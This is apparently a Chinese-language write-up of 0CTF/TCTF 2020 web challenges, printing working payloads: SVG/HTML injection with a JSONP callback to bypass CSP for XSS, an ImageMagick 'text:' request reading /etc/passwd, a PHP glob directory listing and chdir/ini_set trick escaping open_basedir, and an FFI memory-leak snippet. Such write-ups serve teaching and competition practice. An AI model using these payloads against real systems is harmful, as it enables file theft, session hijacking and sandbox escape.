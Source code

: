 # tctf2020

好难.jpg



## Wechat Generator

这题在我们一堆人的群殴下才做出来

题目主要的http请求是：

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200629195954.png)



![](https://raw.githubusercontent.com/Explorersss/photo/master/20200629200021.png)

与

```
http://pwnable.org:5000/image/VMyeGe/xxx
xxx是后缀，具体列表在：https://imagemagick.org/script/formats.php
```





### 第一部分 ImageMagick读取文件

测试share发现，无论我们输入的previewid时候存在，都会生成一个短链

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200629200254.png)

访问对应的png界面时: http://pwnable.org:5000//image/ZpVQfl/png 

返回报错

```
{"error": "Convert exception: unable to open image `previews/testting': No such file or directory @ error/blob.c/OpenBlob/2874"}
```

根据报错猜测是ImageMagick 来转换成对应的后缀

fuzz后缀后发现：

```
http://pwnable.org:5000/image/FdrpgF/htm
```

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200629200643.png)

根据preview返回的数据，后端估计是先生成一个svg,再转化为其他的格式

我们再看看他们是如何传递并表示表情的

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200629200926.png)

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200629201154.png)

发现

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200629201349.png)

修改[]里的值可以逃出引号的限制

```
[{"type":0,"message":"[../../image/mOFJpl/svg#\"></g></svg><script srsrcc=\"/image/kOmxqd/jpg?callback=aaa\"></script><svg><g><image xlink:href=\"]"}]
```



![](https://raw.githubusercontent.com/Explorersss/photo/master/20200629225818.png)



搜索**ImageMagick convert ctf** 发现，ImageMagick convert可以[读取文件](https://blog.bushwhackers.ru/googlectf-2019-gphotos-writeup/)

构造:

```
------WebKitFormBoundaryHJ88AZN7
Content-Disposition: form-data; name="data"

[{"type":0,"message":"[\" href=\"text:/etc/passwd\" onerror=\"//]"}]
------WebKitFormBoundaryHJ88AZN7--
```



![](https://raw.githubusercontent.com/Explorersss/photo/master/20200629230827.png)



测试常见的文件后找到源文件：app.py

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200629230936.png)

这里我们重点关注responseJSON和 secret这两个函数

### 第二部分 xss管理员

secret是让我们xss管理员，但是存在csp:

```
img-src * data:; default-src 'self'; style-src 'self' 'unsafe-inline'; connect-src 'self'; object-src 'none'; base-uri 'self'
```



responseJSON可以让我们在json数据前加上xxx=,结合报错返回的数据是json格式，如果我们能控制报错信息，我们就能绕过csp

前文发现 ImageMagick 的那个接口(share)刚好可以控制报错信息

```
previewid=`test"},alert(1),{"2":"
```

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200629231535.png)

接着就是让htm包含它：



```
[{"type":0,"message":"[../../image/mOFJpl/svg#\"></g></svg><link rel=\"stylesheet\" href=\"/static/css/bootstrap.min.css\"><script ssrcrc=\"/static/js/jquery-3.5.1.min.js\"></script><script ssrcrc=\"/static/js/bootstrap.min.js\"></script><script srsrcc=\"/image/kOmxqd/jpg?callback=aaa\"></script><svg><g><image xlink:href=\"]"}]
```

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200629231806.png)





![](https://raw.githubusercontent.com/Explorersss/photo/master/20200629231854.png)

### 其他解法



一叶飘零大大的wp：

 https://skysec.top/2020/06/27/2020-TCTF-Online-Web-WriteUp/#Wechat-Generator 





## easyphp

```
 <?php
if (isset($_GET['rh'])) {
    eval($_GET['rh']);
} else {
    show_source(__FILE__);
}
```

很简单的源代码,首先查看phpinfo:

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200629232130.png)

open_basedir: /var/www/html 且该目录不可写，twitter上那个绕过open_basedir的方法就没用了

利用

```
$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');};
```

列目录：

```
bin dev etc flag.h flag.so home lib media mnt opt proc root run sbin srv start.sh sys tmp usr var
```

看到flag.h+flag.so+ffi猜测是要用ffi来加载flag.h然后执行其中的方法，

测试后发现 ffi::load 无视open_basedir ,但是只能加载 /flag.h

当我们又不知道flag.h中的函数定义。。。。。。

后来这题是因为别人把题目打穿了，全场绕过open_basedir，读取了flag



## noeasyphp

这题听说是因为出题人因为easyphp重出的题目

这里就要直面刚刚明明无法读取flag.h又要了解flag.h中的函数声明

因为这里有ffi，可以直接操作系统的底层，我们试试内存泄露

```php
$c=FFI::load("/flag.h");
$b=FFI::cast("void *",FFI::new("int[1]",false));
$a=FFI::string($b-400000,400000);
var_dump($a);

```



![](https://raw.githubusercontent.com/Explorersss/photo/master/20200630000339.png)

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200630000414.png)

好玩.jpg



## Cloud Computing

```php
<?php mkdir('/var/www/html/sandbox/362495b25219141379062025d7d6d775772e6b7d/test2');chdir('/var/www/html/sandbox/362495b25219141379062025d7d6d775772e6b7d/test2');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo(file_get_contents('/flag'));
```



